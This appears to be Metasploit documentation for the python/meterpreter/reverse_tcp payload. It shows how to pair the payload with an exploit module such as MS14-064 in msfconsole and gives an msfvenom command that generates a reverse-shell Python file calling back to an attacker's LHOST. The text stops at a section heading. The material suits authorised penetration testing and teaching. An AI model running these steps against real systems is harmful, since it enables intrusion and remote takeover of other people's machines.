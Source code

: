 python/meterpreter/reverse_tcp allows you to remotely control the compromised system. It is a
unique payload to the Metasploit Framework, because it is cross-platform. And since Python is
a very popular programming language, some operating systems such as Ubuntu even support it
by default.

When using an exploit, using a cross-platform payload like python/meterpreter/reverse_tcp also
means you don't need to worry about which target/platform to select, the payload should work
for all of them.

## Vulnerable Application

The Python Meterpreter is suitable for any systems that support Python. Some operating
systems such as Ubuntu, Debian, Arch Linux, and OS X have it by default.

## Deploying python/meterpreter/reverse_tcp

python/meterpreter/reverse_tcp is typically used in two different ways.

First, it can be used with an exploit as long as the Python platform is supported. This sort
of information usually can be found when you use the ```info``` command like this:

```
msf exploit(ms14_064_packager_python) > info

       Name: MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python
     Module: exploit/windows/fileformat/ms14_064_packager_python
   Platform: Python
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2014-11-12

.... more info here ...
```

Or, you can check the exploit's target list by doing ```show targets```, there might be Python
on the list.

If your exploit supports Python, here is how to load it:

1. In msfconsole, select the exploit.
2. Configure the options for that exploit.
3. Do: ```set PAYLOAD python/meterpreter/reverse_tcp```
4. Set the ```LHOST``` datastore option, which is the [IP that the payload should connect to](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).
5. Do ```exploit```. If the exploit is successful, it should execute that payload.

Another way to use the Python Meterpreter is to generate it as a Python file. Normally, you would
want to do this with msfvenom, like this:

```
./msfvenom -p python/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/python.py
```

## Important Basic Commands
